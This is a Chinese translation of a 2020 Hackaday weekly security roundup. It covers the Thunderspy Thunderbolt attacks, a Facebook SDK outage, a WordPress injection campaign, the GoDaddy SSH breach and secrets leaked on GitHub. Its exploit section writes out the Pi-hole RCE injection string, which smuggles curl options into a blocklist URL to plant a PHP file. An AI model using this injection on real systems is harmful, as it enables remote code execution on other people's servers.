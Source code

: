 # 本周安全:雷霆间谍，脸书打破一切，等等

> 原文：<https://hackaday.com/2020/05/15/this-week-in-security-thunderspy-facebook-breaking-everything-and-more/>

Thunderspy 本周发布，由[bjrn Ruytenberg]开发。对雷电 3 协议的一系列攻击，Thunderspy 是盗梦空间、PCILeech 和 Thunderclap 风格的下一个漏洞。

《盗梦空间》和 [PCILeech](https://github.com/ufrisk/pcileech) 是对 Firewire、Thunderbolt 1 和 PCIe 内置的简单直接内存访问(DMA)的攻击。设备可以通过链路连接并请求 DMA。一旦被授予权限，它就可以访问最底层的 4gb 系统内存，既有读写权限。不难想象这将是一个巨大的安全问题，而且似乎这种技术在被发现时已被情报机构使用。另外，硬件 DMA 完全独立于软件，因此可以通过 firewire 调试崩溃的内核。

一旦漏洞被公开，硬件和软件供应商已经采取措施来加强他们的系统抵御攻击。Thunderbolt 2 引入了安全级别来缓解攻击。在向设备提供 DMA 之前，用户必须将设备标记为可信。Thunderclap 利用了单个操作系统如何与这些硬件缓解措施交互的一系列漏洞。

![](img/3d304d2ebd12bcb285e897c33c6a3886.png)

Image by Björn Ruytenberg. Licensed under CC BY 4.0.

现在，Thunderspy 滥用了英特尔雷电 3 规范和实现中的一系列问题。一个有趣的攻击是克隆一个已经被信任的 Thunderbolt 设备。将 Thunderbolt 设备插入 Linux 机器很容易捕获设备 UUID。恶意 Thunderbolt 设备可以被赋予相同的 UUID，并突然具有与克隆设备相同的信任级别。

[bjrn]将攻击推进了一步，发现他可以拆卸笔记本电脑或 thunderbolt 设备，并直接从 thunderbolt 控制器上读取固件。该固件可以被修改和重新上传。最简单的攻击之一是将安全级别设置为最低。

这是一项有趣的研究，并且已经有修复方法来减轻所发现的问题。真正的问题是 Thunderspy 有多重要。威胁模型是邪恶的女仆:留在汽车旅馆房间里的笔记本电脑会在几分钟内被清洁人员使用。Thunderspy 可能会被用于这种类型的攻击，但还有许多其他潜在的更好的攻击选项。在一个狭窄的环境中，Thunderspy 是一种完美的技术:一个带有加密驱动器的设备，它已经通电并登录，但被锁定。在这种情况下，Thunderspy 可以用来恢复存储在内存中的驱动器加密密钥，然后用来植入恶意软件。

### 那次脸书打破了一切

6 号你可能已经注意到了一些普遍的 iOS 应用行为不端。脸书对他们的登录 SDK 的服务器组件进行了更改，这导致许多使用该 SDK 的应用程序崩溃。值得一问的是，这么多受欢迎的应用程序使用脸书代码是否是一个好主意。除了拒绝服务之外，似乎没有其他漏洞或危害途径。

### 大规模 WordPress 攻击

在一场针对各种漏洞的运动中，近一百万个 WordPress 网站受到攻击。一般的攻击策略是注入一个恶意的 javscript，它处于休眠状态，直到被站点管理员执行。具有讽刺意味的是，登录您的网站检查是否有危害可能是导致危害的导火索。像往常一样，让你的插件保持最新，并遵循其余的最佳实践。

### Godaddy 违约

Godaddy 用户最近被告知[有一个漏洞，暴露了他们的部分帐户以危及](https://www.bleepingcomputer.com/news/security/godaddy-notifies-users-of-breached-hosting-accounts/)。值得注意的是，妥协发生在 2019 年 10 月，6 个月后才被发现。Godaddy 表示，除了最初的妥协之外，没有任何恶意行动的证据，这本身就令人费解。

> 2020 年 4 月 23 日，我们发现 SSH 用户名和密码在我们的托管环境中被篡改了。这影响了大约 28，000 名客户。我们立即重置了这些用户名和密码，从我们的平台上删除了违规的 SSH 文件，并且没有迹象表明威胁参与者使用了我们客户的凭据或修改了任何客户托管帐户。需要明确的是，威胁者没有权限访问客户的主要 GoDaddy 帐户。

### 漏洞利用

一个有趣的 [RCE 漏洞被发现](https://frichetten.com/blog/cve-2020-11108-pihole-rce/)在 Pi-hole 软件中。这个特殊的问题需要对整个管理 web 界面进行认证访问，所以它本身不太可能引起太多问题。利用这个漏洞很简单，只需将`[http://192.168.122.1#](http://192.168.122.1#)" -o fun.php -d "`设置为远程阻止列表，并使用您控制的 IP。在幕后，远程阻止列表是通过 curl 获取的，url 没有经过适当的清理。您的 PHP 代码保存在 web 目录中，一个 HTTP 请求触发该代码。

### Github 上的泄漏

[Tillson Galloway]讲述了[如何通过在 Github 中搜索不应该存在的密码和密钥，获得 1 万美元的 bug 奖金](https://tillsongalloway.com/finding-sensitive-information-on-github/index.html)的故事。通过搜索特定的关键词，他发现了各种有趣的、无意的东西。`vim_settings.xml`包含最近复制和粘贴的字符串，`.bash_history`包含已经运行的命令的记录。有多少次你不小心在命令行中输入了密码，以为你在用 SSH 或 sudo 进行身份验证，这只是一个例子？这是一个很容易犯的错误，意外地将这些隐藏文件中的一个包含在公共存储库中。

曾经有过 API 密钥意外包含在源代码 drops 中的例子，甚至多年来 SSL 证书也是这样泄露的。这对我们所有人都是一个教训，确保在将代码推送到 Github 之前清理项目。